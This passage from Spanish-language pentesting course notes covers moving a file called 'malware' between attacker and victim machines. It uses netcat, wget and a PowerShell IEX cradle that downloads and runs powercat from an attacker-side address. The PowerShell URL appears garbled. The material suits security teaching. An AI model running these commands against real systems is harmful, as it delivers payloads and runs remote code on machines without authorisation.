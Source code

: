 		```bash
		nc.exe -lvp 4444 > malware
		```

		<br />

		<div style="text-align:center">
		<img src="{{ 'assets/img/M7/Pasted image 20220130111018.png' | relative_url }}" text-align="center"/>
		</div>

		<br />
		
	- **Linux**: Desde la máquina atacante enviamos el fichero malware a través de netcat en el puerto especificado.
		
		```bash
		nc 10.10.10.2 4444 -w 3 < malware
		```
		
		<br />

		<div style="text-align:center">
		<img src="{{ 'assets/img/M7/Pasted image 20220130111046.png' | relative_url }}" text-align="center"/>
		</div>
		
	
		<br />


### 2.2.2. Bajar ficheros de la máquina víctima.

- **Netcat**: Podemos invertir los papeles del caso anterior, escuchamos desde la máquina atacante y envíamos el fichero con netcat en windows.

- **Powercat** (PowerShell):

	Windows:

	<br />

	```powershell
	powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.1/malware(http://10.10.10.1/powercat.ps1)');powercat -l -p 4444 -i C:\Users\test\malware"
	```

	<br />
	
	Linux:
	
	```bash
	wget http://10.10.10.2:4444/malware
	```
	
<br />

# 3. Herramientas de recolección.
## 3.1. Ayuda en elevación de privilegios en Sistemas Linux.  
